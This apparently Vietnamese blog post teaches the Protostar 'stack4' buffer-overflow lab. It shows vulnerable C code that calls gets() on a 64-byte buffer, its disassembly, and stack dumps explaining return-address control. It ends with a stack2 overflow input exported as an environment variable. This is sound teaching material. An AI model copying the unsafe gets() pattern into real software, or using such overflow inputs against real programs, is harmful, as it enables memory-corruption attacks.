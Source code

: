 ```yaml
---
layout: post
title: stack4
---
```

Kỹ thuật trong bài trước giới thiệu cách tìm và gán địa chỉ hàm để gọi đến hàm đó.
Tuy nhiên, việc gọi hàm thành công là do trong source code đã có sẵn dòng lệnh với mục đích tương tự.
Trong bài này, chúng ta sẽ tìm hiểu cách thức gọi hàm hoàn toàn ngoài ý muốn của chương trình.
Hãy xem source code sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Có thể thấy bên trong hàm `main` chỉ gọi `gets` để lấy giá trị người dùng nhập vào và gán cho biến `buffer`.
Chương trình sẽ thoát ngay sau đó mà không có thêm lệnh nào khác.
Tuy nhiên, nếu nhìn vào asm code của chương trình như dưới đây, ta sẽ thấy có thêm 2 lệnh được chạy.
```asm
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
```
2 lệnh được nhắc đến là `leave` và `ret`, tương đương với `return` trong C.
Lưu ý rằng chạy một chương trình tương tự như việc gọi 1 hàm con.
Trước khi lệnh đầu tiên của hàm con được thực thi, CPU sẽ lưu lại địa chỉ của lệnh kế tiếp cần được thực hiện sau khi hàm con kết thúc.
Khi hàm con return về hàm đã gọi nó, địa chỉ này sẽ được `pop` vào `eip`, và lệnh tại đó được thực thi.
Ví dụ, hãy cùng xem stack ngay trước vào khi gọi hàm `gets` trong `main` của chương trình stack4.
Phân biệt theo màu: <span style="color:aqua">esp</span> và <span style="color:orangered">eip</span>.
<pre class="memory">
<span style="color:orangered">0x8048418</span> <main+16>:    call   0x804830c <gets@plt>
0x804841d <main+21>:    leave
...
0xbffff748:     0xb7fff8f8
0xbffff74c:     0xb7f0186e
<span style="color:aqua">0xbffff750</span>:     0xbffff760
0xbffff754:     0xb7ec6165
</pre>

<pre class="memory">
<span style="color:orangered">0x804830c</span> <gets@plt>:   jmp    DWORD PTR ds:0x80495fc
...
0xbffff748:     0xb7fff8f8
<span style="color:aqua">0xbffff74c</span>:     0x0804841d
0xbffff750:     0xbffff760
0xbffff754:     0xb7ec6165
</pre>
## Ref
```bash
user@protostar:~$ export GREENIE=$'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d'
user@protostar:~$ stack2
you have correctly modified the variable
```
